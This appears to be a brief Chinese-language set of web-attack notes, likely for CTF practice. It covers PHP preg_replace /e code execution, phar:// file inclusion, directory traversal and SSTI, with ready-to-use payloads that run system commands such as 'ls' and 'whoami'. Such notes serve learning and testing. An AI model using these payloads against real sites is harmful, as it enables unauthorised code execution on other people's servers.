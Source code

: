 首先简单介绍一下preg_replace()函数

```

preg_replace($pattern, $replacement, $subject)
作用：搜索subject中匹配pattern的部分， 以replacement的内容进行替换。
$pattern:       要搜索的模式，可以是字符串或一个字符串数组。
$replacement:   用于替换的字符串或字符串数组。
$subject:       要搜索替换的目标字符串或字符串数组。
```
接着关于/e漏洞
```
/e 修正符使 preg_replace() 将 replacement 参数当作 PHP 代码（在适当的逆向
引用替换完之后）。
提示：要确保 replacement 构成一个合法的 PHP 代码字符串，
否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。
```
也就是说只要在subject中有要搜索的pattern的内容，同时将在replacement前加上/e，触发/e漏洞，就可以执行replacement中的正确的php代码

实例：

```
?pat=/sd/e&rep=system('ls')&sub=sds
```




## phra

使用如下方法

```
file.php?file=phar://upload/46a1b93b4756841e1169e9cf9ebf3ecf.jpg
```

## 目录穿越

比如,com/img可以尝试.com/img../穿越

## SSTI

工具tqlmap（https://github.com/epinna/tplmap）



测试语句{{1+2}}

如果{{被过滤可以使用{%绕过

```
{{"".__class__.__mro__[1].__subclasses__()[300].__init__.__globals__["os"]["popen"]("whoami").read()}}
```

另一个

```
{{"".__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
```
